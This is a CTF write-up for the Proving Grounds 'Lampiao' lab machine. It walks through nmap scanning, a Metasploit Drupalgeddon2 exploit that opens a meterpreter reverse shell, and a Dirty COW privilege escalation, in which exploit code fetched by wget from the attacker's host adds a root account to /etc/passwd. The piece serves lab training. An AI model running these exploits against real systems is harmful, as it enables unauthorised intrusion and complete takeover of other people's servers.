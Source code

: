 ```yaml
---
title: "Proving grounds Play: Lampiao"
layout: post
date: 2023-09-27 02:00
categories: writeup
---
```


Proving grounds Play - Lampiao CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 46b199607d81693cae1fc7ffc366e310 (DSA)
|   2048 f3e888f22dd0b2540b9cad6133595593 (RSA)
|   256 ce632af7536e46e2ae81e3ffb716f452 (ECDSA)
|_  256 c655ca073765e306c1d65b77dc23dfcc (ED25519)
80/tcp   open  http?
| fingerprint-strings: 
|   NULL: 
|     _____ _ _ 
|     |_|/ ___ ___ __ _ ___ _ _ 
|     \x20| __/ (_| __ \x20|_| |_ 
|     ___/ __| |___/ ___|__,_|___/__, ( ) 
|     |___/ 
|     ______ _ _ _ 
|     ___(_) | | | |
|     \x20/ _` | / _ / _` | | | |/ _` | |
|_    __,_|__,_|_| |_|
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Lampi\xC3\xA3o
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
| http-robots.txt: 36 disallowed entries (15 shown)
```

## Web PORT: 1898

![img](/assets/images/CTF/Proving_Grounds/Lampiao/web.png)

```html
<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
```

http://192.168.172.48:1898/CHANGELOG.txt

The CMS version used in the web page is Drupal 7.54 which is vulnerable to [Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution](https://www.exploit-db.com/exploits/44449).

## Initial Foothold

```sh
msf6 exploit(multi/http/drupal_drupageddon) > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhosts 192.168.172.48
rhosts => 192.168.172.48
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rport 1898
rport => 1898
sf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lhost 192.168.45.152
lhost => 192.168.45.152
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set lport 4444
lport => 4444
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 192.168.45.152:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Sending stage (39927 bytes) to 192.168.172.48
[*] Meterpreter session 1 opened (192.168.45.152:4444 -> 192.168.172.48:50570) at 2023-09-26 21:56:05 -0400
```

## Privilege Escalation

```sh
ww-data@lampiao:/tmp$ uname -a
uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 athlon i686 GNU/Linux
www-data@lampiao:/tmp$ cat /etc/*release
cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.5 LTS"
NAME="Ubuntu"
VERSION="14.04.5 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.5 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
```

The machine is vulnerable to [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839).

```sh
ww-data@lampiao:/tmp$ wget http://192.168.45.152:80/dirty.c -O dirty.c #download exploit to attacking machine
wget http://192.168.45.152:80/dirty.c -O dirty.c
--2023-09-26 23:07:15--  http://192.168.45.152/dirty.c
Connecting to 192.168.45.152:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5006 (4.9K) [text/x-csrc]
Saving to: 'dirty.c'

100%[======================================>] 5,006       --.-K/s   in 0.02s   

2023-09-26 23:07:15 (236 KB/s) - 'dirty.c' saved [5006/5006]

www-data@lampiao:/tmp$ ls
ls
dirty.c  suid3num.py  vmware-root
www-data@lampiao:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt #compile the exploit
gcc -pthread dirty.c -o dirty -lcrypt
www-data@lampiao:/tmp$ ls
ls
dirty  dirty.c	suid3num.py  vmware-root
www-data@lampiao:/tmp$ ./dirty #run the exploit
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: password #set new password

Complete line:
firefart:fi1IpG9ta02N.:0:0:pwned:/root:/bin/bash
```

Now use switch user or SSH to login to user `firefart:password` to obtain root.

```sh
naveenj@hackerspace:|22:15|~/pg-play/Lampiao/files$ ssh firefart@192.168.172.48
firefart@192.168.172.48's password: password

Last login: Wed Jul 22 14:23:39 2020
firefart@lampiao:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@lampiao:~# 
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).